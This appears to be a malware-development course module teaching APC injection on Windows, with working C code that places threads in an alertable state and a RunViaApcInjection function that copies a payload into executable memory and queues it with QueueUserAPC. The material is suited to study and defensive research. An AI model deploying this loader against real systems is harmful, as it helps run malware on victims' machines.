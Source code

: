 39. APC Injection# [**39. APC Injection**](https://maldevacademy.com/modules/39)

## **APC Injection**

### **Introduction**

This module introduces another way to run a payload without having to create a new thread. This technique is known as APC injection.

### **What is APC?**

[Asynchronous Procedure Calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) are a Windows operating system mechanism that enables programs to execute tasks asynchronously while continuing to run other tasks. APCs are implemented as kernel-mode routines that are executed in the context of a specific thread. Malware can leverage APCs to queue a payload and then have it execute when scheduled.

### **Alertable State**

Not all threads can run a queued APC function, only threads in an *alertable state* can do so. An alertable state thread is a thread that is in a wait state. When a thread enters an alertable state it is placed in a queue of alertable threads, allowing it to run queued APC functions.

### **What is APC Injection?**

To queue an APC function to a thread, the address of the APC function must be passed to the [QueueUserAPC](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) WinAPI. According to Microsoft's documentation:

*An application queues an APC to a thread by calling the QueueUserAPC function. The calling thread specifies the address of an APC function in the call to QueueUserAPC.*

The injected payload's address will be passed to `QueueUserAPC` in order to have it executed. Before doing so, a thread in the local process must be placed in an alertable state.

### **QueueUserAPC**

`QueueUserAPC` is shown below and it accepts 3 arguments:

* `pfnAPC` - The address of the APC function to be called.
* `hThread` - A handle to an alertable thread or suspended thread.
* `dwData` - If the APC function requires parameters, they can be passed here. This value will be `NULL` in this module's code.


```
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);

```
### **Placing a Thread In An Alertable State**

The thread that will be executing the queued function needs to be in an alertable state. This can be done by creating a thread and using one of the following WinAPIs:

* [Sleep](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleep)
* [SleepEx](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex)
* [MsgWaitForMultipleObjects](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjects)
* [MsgWaitForMultipleObjectsEx](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjectsex)
* [WaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)
* [WaitForSingleObjectEx](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobjectex)
* [WaitForMultipleObjects](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitformultipleobjects)
* [WaitForMultipleObjectsEx](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitformultipleobjectsex)
* [SignalObjectAndWait](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-signalobjectandwait)

These functions are used for synchronizing threads and improving performance and responsiveness in applications, however in this case, passing a handle to a dummy event is sufficient. Passing the correct parameters to these functions is not necessary since simply using one of the functions is enough to place the thread in an alertable state.

To create a dummy event, the [CreateEvent](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-createeventw) WinAPI will be used. The newly created event object is a synchronization object that allows threads to communicate with each other by signaling and waiting for events. Since the output of `CreateEvent` is irrelevant, any valid event can be passed to the previously shown WinAPIs.

### **Using The Functions**

Any of the following functions can be used as a sacrificial alertable thread to run the queued APC payload. See below for examples of how to use the functions to place the current thread in an alertable state.

**Using**`**Sleep**`


```
VOID AlertableFunction1() {

	Sleep(-1);
}


```
**Using**`**SleepEx**`


```
VOID AlertableFunction2() {

	SleepEx(INFINITE, TRUE);
}

```
**Using**`**WaitForSingleObject**`


```
VOID AlertableFunction3() {

	HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
	if (hEvent){
		WaitForSingleObject(hEvent, INFINITE);
		CloseHandle(hEvent);
	}
}

```
**Using**`**MsgWaitForMultipleObjects**`


```
VOID AlertableFunction4() {

	HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
	if (hEvent) {
		MsgWaitForMultipleObjects(1, &hEvent, TRUE, INFINITE, QS_INPUT);
		CloseHandle(hEvent);
	}
}

```
**Using**`**SignalObjectAndWait**`


```
VOID AlertableFunction5() {

	HANDLE hEvent1 = CreateEvent(NULL, NULL, NULL, NULL);
	HANDLE hEvent2 = CreateEvent(NULL, NULL, NULL, NULL);

	if (hEvent1 && hEvent2) {
		SignalObjectAndWait(hEvent1, hEvent2, INFINITE, TRUE);
		CloseHandle(hEvent1);
		CloseHandle(hEvent2);
	}
}

```
### **Suspended Threads**

`QueueUserAPC` can also succeed if the target thread is created in a suspended state. If this method is used to execute the payload, `QueueUserAPC` should be called first and then the suspended thread should be resumed next. Again, the thread must be created in a suspended state, suspending an existing thread will not work.

The code shared in this module demonstrates APC injection via an alertable and suspended thread.

### **APC Injection Implementation Logic**

To summarize, the implementation logic will be as follows:

1. First, create a thread that runs one of the previously mentioned functions to place it in an alertable state.
2. Inject the payload into memory.
3. The thread handle and payload base address will be passed as input parameters to `QueueUserAPC`.

### **APC Injection Function**

`RunViaApcInjection` is a function that performs APC Injection and requires 3 arguments:

* `hThread` - A handle to an alertable or suspended thread.
* `pPayload` - A pointer to the payload's base address.
* `sPayloadSize` - The size of the payload.


```
BOOL RunViaApcInjection(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	PVOID pAddress = NULL;
	DWORD dwOldProtection = NULL;


	pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("\t[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	memcpy(pAddress, pPayload, sPayloadSize);


	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("\t[!] VirtualProtect Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// If hThread is in an alertable state, QueueUserAPC will run the payload directly
	// If hThread is in a suspended state, the payload won't be executed unless the thread is resumed after
	if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL)) {
		printf("\t[!] QueueUserAPC Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}


```
### **Demo - APC Injection Using An Alertable Thread**

[![](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-1-109284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-1-109284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)


[![](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-1-209284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-1-209284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)****Demo - APC Injection Using a Suspended Thread****

[![](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-2-109284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-2-109284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)[![](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-2-209284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-2-209284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)